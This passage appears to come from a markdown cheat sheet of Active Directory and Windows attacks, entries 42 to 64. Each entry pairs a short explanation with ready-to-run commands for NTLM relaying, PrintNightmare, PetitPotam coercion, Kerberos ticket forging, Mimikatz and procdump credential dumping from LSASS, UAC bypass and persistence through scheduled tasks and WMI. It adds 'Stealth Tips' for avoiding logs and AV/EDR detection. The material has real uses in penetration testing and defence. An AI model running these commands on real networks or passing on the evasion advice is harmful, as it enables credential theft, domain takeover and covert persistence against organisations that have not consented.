- **Tools**: Impacket, ZeroLogon exploit scripts  
- **Stealth Tips**: Exploit causes logs; use once and reset DC account  
</details>

<a name="ntlm-relay"></a>
<details>
  <summary><strong>42. NTLM Relay</strong></summary>

- **Purpose**: Intercept and relay authentication to another service  
- **Functionality**: Man-in-the-middle attack using NTLM challenge-response  
- **Why It's Vulnerable**: Services accepting NTLM without signing  
- **How to Test**: Use responder + ntlmrelayx  
```bash
responder -I eth0
ntlmrelayx.py -t ldap://target --escalate-user vulnerable
```
- **Tools**: Responder, ntlmrelayx  
- **Stealth Tips**: Relay once; avoid repeated noise  
</details>

<a name="printnightmare-cve-2021-34527"></a>
<details>
  <summary><strong>43. PrintNightmare (CVE-2021-34527)</strong></summary>

- **Purpose**: Remote code execution via Print Spooler service  
- **Functionality**: Uploads DLL to system via printer API  
- **Why It's Vulnerable**: Print Spooler exposed and unpatched  
- **How to Test**: Use exploit to write DLL and trigger  
```bash
Invoke-Nightmare -NewUser "pwned" -AddToAdministrators
```
- **Tools**: PowerShell PoCs, Mimikatz  
- **Stealth Tips**: Remove DLL, cleanup user afterward  
</details>

<a name="samaccountname-spoofing-cve-2021-42278"></a>
<details>
  <summary><strong>44. SAMAccountName Spoofing (CVE-2021-42278)</strong></summary>

- **Purpose**: Rename machine account to impersonate a domain admin  
- **Functionality**: Exploits mismatch in machine account naming checks  
- **Why It's Vulnerable**: No strict validation for account renames  
- **How to Test**: Rename machine account and request TGT  
```powershell
Rename-ADObject -Identity "CN=old" -NewName "DC01"
Rubeus asktgt /user:DC01 /rc4:<hash>
```
- **Tools**: PowerShell, Rubeus  
- **Stealth Tips**: Rename back quickly; keep account disposable  
</details>

<a name="petitpotam-adcs-relay"></a>
<details>
  <summary><strong>45. PetitPotam + ADCS Relay</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker and relay to ADCS  
- **Functionality**: EFSRPC coercion to force auth + ADCS relay  
- **Why It's Vulnerable**: Unauthenticated access to EFSRPC + misconfigured templates  
- **How to Test**: Use petitpotam + ntlmrelayx  
```bash
python3 petitpotam.py attacker-ip target-ip
ntlmrelayx.py -t http://CA-server/certsrv/ --adcs
```
- **Tools**: petitpotam, ntlmrelayx  
- **Stealth Tips**: Coerce once; use high-integrity cert template  
</details>

<a name="delegation-abuse-unconstrained"></a>
<details>
  <summary><strong>46. Delegation Abuse - Unconstrained</strong></summary>

- **Purpose**: Abuse unconstrained delegation to impersonate users  
- **Functionality**: Attacker machine gets TGTs when user logs in  
- **Why It's Vulnerable**: Unconstrained delegation set on computer object  
- **How to Test**: Trick user into authenticating to attacker-controlled host  
```powershell
# After victim auths
Rubeus tgtdeleg
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Limit use of captured TGTs; cleanup afterwards  
</details>

<a name="kerberos-rc4-hashing-deprecated-vuln"></a>
<details>
  <summary><strong>47. Kerberos RC4 Hashing (Weak Crypto)</strong></summary>

- **Purpose**: Exploit weak encryption for ticket forging  
- **Functionality**: Use known hash to forge TGT/TGS  
- **Why It's Vulnerable**: Legacy support of RC4 and weak crypto algorithms  
- **How to Test**: Force RC4 with Rubeus and inject forged tickets  
```powershell
Rubeus asktgt /user:target /rc4:<ntlm> /ptt
```
- **Tools**: Rubeus  
- **Stealth Tips**: Avoid triggering Kerberos events  
</details>

<a name="kerberos-golden-ticket"></a>
<details>
  <summary><strong>48. Golden Ticket</strong></summary>

- **Purpose**: Forge TGTs as any user including domain admins  
- **Functionality**: Use krbtgt hash to craft TGT  
- **Why It's Vulnerable**: DC trusts TGTs signed by krbtgt  
- **How to Test**: Dump krbtgt hash and create TGT  
```powershell
mimikatz "kerberos::ptt golden.kirbi"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use short lifetime TGTs; avoid excessive privileges  
</details>

<a name="ldap-signing-bypass"></a>
<details>
  <summary><strong>49. LDAP Signing Not Enforced</strong></summary>

- **Purpose**: Relay NTLM to LDAP without signing  
- **Functionality**: AD doesn’t require LDAP signing by default  
- **Why It's Vulnerable**: Enables relaying to domain controller  
- **How to Test**: Relay NTLM to LDAP using ntlmrelayx  
```bash
ntlmrelayx.py -t ldap://dc-ip --escalate-user victim
```
- **Tools**: ntlmrelayx, Responder  
- **Stealth Tips**: Limit relays; delete accounts created  
</details>

<a name="overpass-the-hash-pass-the-key"></a>
<details>
  <summary><strong>50. OverPass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Authenticate using NTLM hash by forging TGT  
- **Functionality**: Use AES/RC4 hash to generate TGT  
- **Why It's Vulnerable**: Kerberos accepts keys instead of passwords  
- **How to Test**: Use Mimikatz or Rubeus to craft TGT  
```powershell
mimikatz "kerberos::ptt /user:user /domain:lab.local /rc4:<ntlm>"
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Clean up injected tickets  
</details>


<a name="resource-based-constrained-delegation"></a>
<details>
  <summary><strong>51. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Allow impersonation on target by modifying msDS-AllowedToActOnBehalfOfOtherIdentity  
- **Functionality**: Attacker-controlled computer account is delegated on victim  
- **Why It's Vulnerable**: ACL misconfig or writable attributes allow delegation abuse  
- **How to Test**:
```powershell
Add-DComputer -ComputerName 'pwned' -SAMAccountName 'pwned$'
Set-ADComputer 'victim$' -PrincipalsAllowedToDelegateToAccount 'pwned$'
```
- **Tools**: PowerView, Rubeus, Impacket  
- **Stealth Tips**: Use stealthy names; revert delegation post-access  
</details>

<a name="unquoted-service-path"></a>
<details>
  <summary><strong>52. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit path parsing to run malicious binary with service privileges  
- **Functionality**: Windows may misinterpret unquoted service paths with spaces  
- **Why It's Vulnerable**: Service binary path is not wrapped in quotes  
- **How to Test**:
```powershell
sc qc vulnservice
# Place binary at 'C:\Program Files\Some App\evil.exe'
```
- **Tools**: PowerUp, accesschk.exe  
- **Stealth Tips**: Clean up binary; requires service restart  
</details>

<a name="weak-service-permissions"></a>
<details>
  <summary><strong>53. Weak Service Permissions</strong></summary>

- **Purpose**: Modify service binary to execute attacker code  
- **Functionality**: Service permissions allow write/replace of executable  
- **Why It's Vulnerable**: Misconfigured DACLs on service or executable  
- **How to Test**:
```powershell
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config vulnservice binpath= "C:\evil.exe"
```
- **Tools**: PowerUp, accesschk, sc.exe  
- **Stealth Tips**: Revert path after execution  
</details>

<a name="mimikatz-sekurlsa-dump"></a>
<details>
  <summary><strong>54. Credential Dumping with Mimikatz</strong></summary>

- **Purpose**: Extract plaintext passwords, hashes, and tickets from LSASS  
- **Functionality**: LSASS memory stores creds of logged-in users  
- **Why It's Vulnerable**: LSASS is accessible to admin-level users  
- **How to Test**:
```powershell
mimikatz
privilege::debug
sekurlsa::logonpasswords
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV/EDR detection; use memory-safe methods  
</details>

<a name="browser-creds-and-lsass"></a>
<details>
  <summary><strong>55. Dumping Browser Creds & LSASS Offline</strong></summary>

- **Purpose**: Steal saved browser passwords or LSASS dump for offline parsing  
- **Functionality**: Use tools to decrypt browser or parse minidumps  
- **Why It's Vulnerable**: Browsers and LSASS often store sensitive data  
- **How to Test**:
```bash
procdump64.exe -ma lsass.exe lsass.dmp
mimikatz "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```
- **Tools**: Mimikatz, procdump, LaZagne  
- **Stealth Tips**: Upload & analyze offline; clean up dumps  
</details>

<a name="wmi-persistence"></a>
<details>
  <summary><strong>56. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain access using permanent WMI events  
- **Functionality**: Register event filters and consumers to execute payload  
- **Why It's Vulnerable**: WMI can persist actions without files  
- **How to Test**:
```powershell
Invoke-WmiEvent -Trigger Win32ProcessStartTrace -Command "calc.exe"
```
- **Tools**: PowerShell, WMIExplorer  
- **Stealth Tips**: Hard to detect; clear subscriptions later  
</details>

<a name="scheduled-task-persistence"></a>
<details>
  <summary><strong>57. Scheduled Task Persistence</strong></summary>

- **Purpose**: Run payload at logon or system boot  
- **Functionality**: Task Scheduler executes attacker-defined task  
- **Why It's Vulnerable**: Misconfigured permissions or admin access  
- **How to Test**:
```powershell
schtasks /create /tn "Updater" /tr "C:\evil.exe" /sc onlogon /ru System
```
- **Tools**: schtasks, PowerSploit  
- **Stealth Tips**: Use legit-looking names and paths  
</details>

<a name="user-account-control-bypass"></a>
<details>
  <summary><strong>58. UAC Bypass</strong></summary>

- **Purpose**: Elevate from medium integrity to high integrity without prompt  
- **Functionality**: Abuse auto-elevated binaries  
- **Why It's Vulnerable**: Auto-elevate rules and DLL hijacking  
- **How to Test**:
```powershell
Invoke-BinaryUACBypass -Method fodhelper -Command "C:\evil.exe"
```
- **Tools**: UACME, PowerUp  
- **Stealth Tips**: Use signed binaries if possible  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>59. Shadow Credentials</strong></summary>

- **Purpose**: Persist access via alternate credentials (KeyCredential)  
- **Functionality**: Add attacker public key to victim user object  
- **Why It's Vulnerable**: Weak ACLs allow key injection  
- **How to Test**:
```bash
certify shadow /user:target /dc:dc-ip /machine:attacker
```
- **Tools**: Certify, Whisker, SharpHound  
- **Stealth Tips**: Silent persistence method  
</details>

<a name="adcs-template-misconfig"></a>
<details>
  <summary><strong>60. ADCS Certificate Template Misconfig</strong></summary>

- **Purpose**: Abuse vulnerable certificate templates to escalate  
- **Functionality**: Enroll in low-privilege templates with high privilege rights  
- **Why It's Vulnerable**: Wrong security descriptors on templates  
- **How to Test**:
```bash
certify find /vulnerable
certify request /template:User /altname:admin
```
- **Tools**: Certify, ADCSKit  
- **Stealth Tips**: Remove certs after use  
</details>

<a name="printerbug-coercion"></a>
<details>
  <summary><strong>61. PrinterBug Coercion</strong></summary>

- **Purpose**: Coerce machine to authenticate to attacker  
- **Functionality**: Send Print Spooler call that triggers SMB auth  
- **Why It's Vulnerable**: Printer bug causes machine auth leak  
- **How to Test**:
```bash
rpcdump.py @target -U user
printerbug.py attacker@domain target
```
- **Tools**: printerbug.py, Responder  
- **Stealth Tips**: Use once per target; rotate SMB listener  
</details>

<a name="priv-esc-across-trust-key-abuse"></a>
<details>
  <summary><strong>62. PrivEsc across External Trust – Trust Key Abuse</strong></summary>

- **Purpose**: Exploit trust misconfig to access another domain  
- **Functionality**: Abuse shared trust keys to forge cross-domain tickets  
- **Why It's Vulnerable**: Poor trust config allows forging with known keys  
- **How to Test**:
```powershell
Rubeus tgtdeleg /rc4:<trustkey> /domain:child.domain
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Minimal noise across domains; cleanup tickets  
</details>

<a name="kerberos-key-listing-dumping"></a>
<details>
  <summary><strong>63. Kerberos Key Listing/Dumping</strong></summary>

- **Purpose**: Extract Kerberos keys from memory or dump  
- **Functionality**: Keys used for ticket encryption are dumped from LSASS  
- **Why It's Vulnerable**: Keys reside in memory  
- **How to Test**:
```powershell
mimikatz "sekurlsa::ekeys"
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid AV detection; use offline analysis  
</details>

<a name="kerberos-renewable-ticket-abuse"></a>
<details>
  <summary><strong>64. Renewable Kerberos Ticket Abuse</strong></summary>

- **Purpose**: Persist access by renewing TGT indefinitely  
- **Functionality**: Create long-lifetime ticket and keep renewing  
- **Why It's Vulnerable**: Policy allows long ticket lifetimes  
- **How to Test**:
```powershell
Rubeus renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Fly under radar with long-term access  
</details>
